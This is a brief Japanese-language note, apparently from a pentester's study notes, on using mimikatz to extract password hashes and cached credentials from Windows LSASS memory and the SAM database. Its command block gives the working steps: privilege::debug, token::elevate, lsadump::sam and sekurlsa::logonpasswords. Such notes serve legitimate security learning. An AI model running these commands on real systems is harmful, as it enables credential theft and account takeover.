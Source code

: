 # mimikatz

### LSASS（Local Security Authority Subsystem）のプロセスメモリにキャッシュされているパスワードハッシュの抽出

```cmd
mimikatz.exe
# seDebugPrivilegeを有効にする
privilege::debug
# 整合性レベルをhigh→systemに
token::elevate
lsadump::sam
```

![image-20230106165509557](img/mimikatz/image-20230106165509557.png)

※lsadump::samを使ってSAMデータベースの内容をダンプしている

※LSASSはSYSTEMプロセスであり、管理者権限で動作するmimikatzよりもさらに高い権限を持っている



```
sekurlsa::logonpasswords
```





* コマンドのチートシート

  https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/logonpasswords

  
